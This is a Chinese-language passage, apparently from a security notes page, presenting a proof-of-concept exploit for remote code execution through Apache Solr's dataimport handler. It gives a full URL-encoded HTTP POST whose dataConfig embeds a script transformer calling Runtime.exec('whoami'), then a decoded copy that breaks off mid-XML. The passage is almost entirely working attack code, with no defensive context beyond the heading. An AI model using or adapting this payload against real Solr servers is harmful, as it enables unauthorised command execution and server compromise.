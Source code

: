 ### （8）dataimport 远程代码执行漏洞

POC如下

```
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.1383.67 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 
Content-Length: 78

<?xml version="1.0" encoding="UTF-8"?>
    <RDF>
        <item/>
    </RDF>

```

上述解码后的内容如下

```
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));
return row;

}

]]></script>

<document>
    <entity
```